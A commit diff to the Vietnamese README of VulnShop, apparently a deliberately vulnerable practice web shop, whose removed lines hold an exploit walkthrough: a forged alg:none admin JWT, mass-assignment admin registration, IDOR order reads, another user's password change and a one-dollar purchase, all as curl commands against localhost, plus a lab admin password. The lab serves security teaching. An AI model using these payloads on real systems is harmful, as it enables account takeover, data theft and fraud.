

Before and after one commit to In0ri/VulnShop, a Markdown page: README.md, the part around one of its changes. Shown at 92% size. Rendered like a GitHub page; folded sections open; blank space fills up the shorter version.

Commit message:
docs: trim README to vulnerability list only
Remove exploitation walkthroughs, UI exploration guide, and remediation
so the lab stays a challenge; keep only the enumerated vulnerability list.

Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

````diff
--- a/README.md
+++ b/README.md
@@ -56,54 +56,3 @@ Phụ: **coupon enumeration** (lộ `VIP50`, `STAFF100` 100%-off) — `GET /api/
 
 ---
 
-
-## 🖥️ Khám phá ngay trên giao diện (không cần Burp)
-
-- **Search:** gõ vào ô tìm kiếm trên header (từ bất kỳ trang nào) → tự nhảy về Store và lọc sản phẩm theo tên/danh mục; có nút *Clear search* khi không có kết quả.
-- **My Orders → View invoice / Look up an invoice:** mở modal hiện đầy đủ hoá đơn (tên, email, địa chỉ, 4 số thẻ). Ô *Look up an invoice* cho nhập **Order ID bất kỳ** — thử `5001`, `5002`, `5003` (đơn của người khác) để thấy **IDOR** trực tiếp.
-- **Admin dashboard** (đăng nhập `admin / SuperAdmin!2021`, hoặc ép URL `#admin` dù là user thường): 4 tab
-  - *Overview* — số liệu, tải bằng header `X-Admin: true` (không cần token).
-  - *Users* — bảng user **lộ cả plaintext password**; đổi `role`/`balance` rồi Save (mass assignment), hoặc Delete.
-  - *Products* — sửa giá/tồn kho, xoá, thêm sản phẩm mới — API `/api/products` không cần auth.
-  - *Orders* — toàn bộ đơn của mọi user.
-  - Banner đỏ trong trang ghi rõ từng API và cách bypass tương ứng.
-
-## 🔓 Lời giải (spoiler)
-
-<details><summary>Bấm để xem các bước khai thác</summary>
-
-**#2 Forge admin bằng JWT alg:none** (không cần mật khẩu):
-```bash
-python3 - <<'PY'
-import base64,json
-b=lambda o:base64.urlsafe_b64encode(json.dumps(o).encode()).rstrip(b'=').decode()
-print(b({"alg":"none","typ":"JWT"})+"."+b({"sub":1,"username":"admin","role":"admin"})+".")
-PY
-curl localhost:3000/api/me -H "Authorization: Bearer <forged>"
-```
-
-**#9 Mass assignment → admin ngay khi đăng ký:**
-```bash
-curl -X POST localhost:3000/api/register -H 'Content-Type: application/json' \
-  -d '{"username":"evil","password":"p","role":"admin","balance":99999}'
-```
-
-**#10/#14 IDOR:** đăng nhập `alice`, đọc đơn của người khác:
-```bash
-curl localhost:3000/api/orders/5002 -H "Authorization: Bearer $TOK"
-curl "localhost:3000/api/orders?userId=1" -H "Authorization: Bearer $TOK"
-curl localhost:3000/api/users/1 -H "Authorization: Bearer $TOK"
-```
-
-**#12 Chiếm tài khoản bob (horizontal):**
-```bash
-curl -X POST localhost:3000/api/users/3/change-password -H "Authorization: Bearer $TOK" \
-  -H 'Content-Type: application/json' -d '{"newPassword":"pwned"}'
-```
-
-**#15 Mua hàng giá 1$:**
-```bash
-curl -X POST localhost:3000/api/orders -H "Authorization: Bearer $TOK" -H 'Content-Type: application/json' \
-  -d '{"items":[{"id":103,"name":"Pulse Smartwatch 2","price":1,"qty":1}],"total":1}'
-```
-
````
Also changed, not shown: other parts of README.md (+0 -26 lines).
